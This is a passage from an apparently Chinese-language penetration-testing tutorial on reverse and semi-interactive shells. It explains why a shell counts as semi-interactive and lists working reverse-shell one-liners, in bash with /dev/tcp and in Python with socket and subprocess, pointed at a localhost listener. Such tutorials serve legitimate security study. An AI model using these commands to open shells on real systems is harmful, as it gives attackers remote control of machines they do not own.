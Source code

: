 接着运行 history 命令，为了方面截图，使用 grep 进行了过滤

![](../../.gitbook/assets/image%20%28452%29.png)

最后运行 top, 报了 `top: failed tty get` 这个错误，无法获取一个终端，这也是我将它定义为半交互式的原因

![](../../.gitbook/assets/image%20%28447%29.png)

2、直接反弹 bash -i

```text
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1

/bin/bash -i > /dev/tcp/127.0.0.1/8080 0<& 2>&1

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
